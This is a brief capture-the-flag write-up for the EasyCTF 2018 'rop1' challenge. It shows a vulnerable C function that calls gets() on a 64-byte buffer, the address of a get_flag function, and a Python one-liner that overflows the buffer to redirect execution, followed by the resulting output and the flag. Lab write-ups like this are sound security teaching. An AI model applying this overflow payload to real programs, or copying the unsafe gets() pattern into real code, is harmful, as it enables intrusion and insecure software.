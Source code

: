 # EasyCTF_2018: rop1

**Category:** Binary Exploitation
**Points:** 120
**Description:**

>Go to `/problems/rop1` on the shell server and tell me whats in `flag.txt`.

## Write-up
We are given two relevant files, [rop1](rop1) and [rop1.c](rop1.c). This is also relatively easy, just get the address of the function,

    0x00400646    1 17           sym.get_flag

and the buffer size, 

    void get_input()
    {
        char inp[64];
        gets(inp);
        printf("You said: %s\n", inp);
    }

Add `8` to it, and prepare your payload,

    $ python -c "print('A' * 72 + '\x46\x06\x40\x00')" | ./rop1
    You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAF@
    easyctf{r0ps_and_h0ps}
    Segmentation fault (core dumped)

Therefore, the flag is `easyctf{r0ps_and_h0ps}`.
